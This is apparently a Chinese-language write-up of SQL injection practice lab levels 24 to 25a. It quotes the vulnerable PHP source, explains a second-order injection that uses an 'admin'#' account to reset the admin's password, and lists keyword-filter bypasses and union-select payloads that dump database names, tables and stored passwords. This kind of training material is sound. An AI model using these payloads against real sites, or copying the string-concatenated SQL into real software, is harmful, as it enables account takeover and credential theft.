


### 第二十四关

创建用户源码

<?php  

//including the Mysql connect parameters.  
include("../sql-connections/sql-connect.php");  


if (isset($_POST['submit']))  
{  


# Validating the user input........  

    //$username=  $_POST['username'] ;    $username=  mysql_escape_string($_POST['username']) ;  
    $pass= mysql_escape_string($_POST['password']);  
    $re_pass= mysql_escape_string($_POST['re_password']);  

    echo "<font size='3' color='#FFFF00'>";  
    $sql = "select count(*) from users where username='$username'";  
    $res = mysql_query($sql) or die('You tried to be smart, Try harder!!!! :( ');  
    $row = mysql_fetch_row($res);  

    //print_r($row);  
    if (!$row[0]== 0)   
       {  
       ?>

<?php  
header('refresh:1, url=new_user.php');  
       }   
else {  
           if ($pass==$re_pass)  
    {  
       # Building up the query........  
             $sql = "insert into users ( username, password) values(\"$username\", \"$pass\")";  
             mysql_query($sql) or die('Error Creating your user account,  : '.mysql_error());  
          echo "</br>";  
          echo "<center><font size='3' color='#FFFF00'>";               
          //echo "<h1>User Created Successfully</h1>";  
          echo "</br>";  
          echo "</br>";  
          echo "</br>";                
          echo "</br>Redirecting you to login page in 5 sec................";  
          echo "<font size='2'>";  
          echo "</br>If it does not redirect, click the home button on top right</center>";  
          header('refresh:5, url=index.php');  
    }  
    else  
    {  
    ?>

修改账户源码

<?php  

//including the Mysql connect parameters.  
include("../sql-connections/sql-connect.php");  


if (isset($_POST['submit']))  
{  


    # Validating the user input........  
    $username= $_SESSION["username"];  
    $curr_pass= mysql_real_escape_string($_POST['current_password']);  
    $pass= mysql_real_escape_string($_POST['password']);  
    $re_pass= mysql_real_escape_string($_POST['re_password']);  

    if($pass==$re_pass)  
    {    
       $sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";  
       $res = mysql_query($sql) or die('You tried to be smart, Try harder!!!! :( ');  
       $row = mysql_affected_rows();  
       echo '<font size="3" color="#FFFF00">';  
       echo '<center>';  
       if($row==1)  
       {  
          echo "Password successfully updated";  

       }  
       else  
       {  
          header('Location: failed.php');  
          //echo 'You tried to be smart, Try harder!!!! :( ';  
       }  
    }  
    else  
    {  
       echo '<font size="5" color="#FFFF00"><center>';  
       echo "Make sure New Password and Retype Password fields have same value";  
       header('refresh:2, url=index.php');  
    }  
}  
?>

登陆账户源码

<?PHP  

session_start();  
//including the Mysql connect parameters.  
include("../sql-connections/sql-connect.php");  


function sqllogin(){  

   $username = mysql_real_escape_string($_POST["login_user"]);  
   $password = mysql_real_escape_string($_POST["login_password"]);  
   $sql = "SELECT * FROM users WHERE username='$username' and password='$password'";  
//$sql = "SELECT COUNT(*) FROM users WHERE username='$username' and password='$password'";  
   $res = mysql_query($sql) or die('You tried to be real smart, Try harder!!!! :( ');  
   $row = mysql_fetch_row($res);  
    //print_r($row) ;  
   if ($row[1]) {  
          return $row[1];  
   } else {  
           return 0;  
   }  

}  


$login = sqllogin();  
if (!$login== 0)   
{  
    $_SESSION["username"] = $login;  
    setcookie("Auth", 1, time()+3600);  /* expire in 15 Minutes */  
    header('Location: logged-in.php');  
}   
else  
{  
?>

从上面三个源码可以发现一个函数反复出现mysql_escape_string()

经过代码审计，发现了mysql_escape_string()函数，此函数会将字符串中的特殊字符进行转义，但是存储在数据库中时会将数据还原。

因此当我们只知道用户名不知道密码时可以使用，假设我们已经知道了一个后台的管理员账号为admin密码不知，此时我可以注册一个新用户admin'#，并且修改此新用户名的密码，修改完的密码其实即使admin的密码，并非admin'#的密码。

##### 第一步

注册新用户，用户名为想入侵的账户名，密码随意以admin'#为例，



##### 第二步

登陆刚注册的用户修改密码



##### 第三步

登陆admin账户用修改后的密码

```SQL
在上面代码中起到最关键作用更新密码的sql语句的时下面的代码
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' "
在此代码中，$username来自我们输入的用户名admin'#
将此用户名带入此sql语句形成
$sql = "UPDATE users SET PASSWORD='$pass' where username='admin'#'and password='$curr_pass'"
发现此代码＃后面被成功注释掉了，并且成功闭合。真正发挥作用的是下面的sql语句部分
$sql = "UPDATE users SET PASSWORD='$pass' where username='admin'
在上面的sql语句中$pass来自我们输入的新密码666

翻译过来就是，更新users表中的密码，将密码设置为$pass也就是本实例中的666，将谁的密码设置为666？where username='admin'将admin的密码设置为666.

这就完成了二次注入。
```

### 

第二十五

源码

<?php  
//including the Mysql connect parameters.  
include("../sql-connections/sql-connect.php");  


// take the variables if(isset($_GET['id']))  
{  
    $id=$_GET['id'];  
    //logging the connection parameters to a file for analysis.  
    $fp=fopen('result.txt','a');  
    fwrite($fp,'ID:'.$id."\n");  
    fclose($fp);  

    //fiddling with comments  
    $id= blacklist($id);  
    //echo "<br>";  
    //echo $id;    //echo "<br>";    $hint=$id;  

// connectivity   
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";  
    $result=mysql_query($sql);  
    $row = mysql_fetch_array($result);  
    if($row)  
    {  
       echo "<font size='5' color= '#99FF00'>";     
       echo 'Your Login name:'. $row['username'];  
       echo "<br>";  
       echo 'Your Password:' .$row['password'];  
       echo "</font>";  
    }  
    else   
{  
       echo '<font color= "#FFFF00">';  
       print_r(mysql_error());  
       echo "</font>";    
    }  
}  
else {   
    echo "Please input the ID as parameter with numeric value";  
}  


function blacklist($id)  
{  
    $id= preg_replace('/or/i',"", $id);          //strip out OR (non case sensitive)  
    $id= preg_replace('/AND/i',"", $id);      //Strip out AND (non case sensitive)  
    return $id;  
}  


?>

关键函数对or和AND进行了过滤无论大小写

`function blacklist($id)  
{  
    $id= preg_replace('/or/i',"", $id);          //strip out OR (non case sensitive)  
    $id= preg_replace('/AND/i',"", $id);      //Strip out AND (non case sensitive)  
    return $id;  
}`

绕过方法

`

```SQL
1.使用&&、||或者like 
&& substr(database(),1,1)='t'
|| substr(database(),1,1)='t'
注：在mysql中and与or 是可以用&&和||相互代替的 
双写绕过
aandnd 和oorr
如：and 1=1 ->&& 1=1  or 1=1 ->||1=1 
不过在oracle中，||为拼接字符，如：’a’||’b’->’ab’，相当于mysql中的concat()
like+if(substr(database(),1,1)='s',1,0)=1--+（此处的like需要结合判断函数使用）
```

sql语句

`$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";`

爆字段

    ?id=1' oorrder by 3 -- qwe

爆现错位

    ?id=-1' union select 1,2,3 -- qwe

爆数据库名

    ?id=-1' union select 1,database(),3 -- qwe

爆表名

    ?id=-1' union select 1,group_concat(table_name),3 from infoorrmation_schema.tables where table_schema=database() -- qwe

爆列名

    ?id=-1' union select 1,group_concat(column_name),3 from infoorrmation_schema.columns where table_schema=database() anandd table_name='users' -- qwe

爆数据

    ?id=-1' union select 1,group_concat('%',id,passwoorrd,username),3 from security.users -- qwe

### 第二十五a

与上一关的区别在于闭合不同`$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";`

直接爆数据

     ?id=1 anandd union select 1,group_concat('%',id,passwoorrd,username),3 from security.users -- qwe
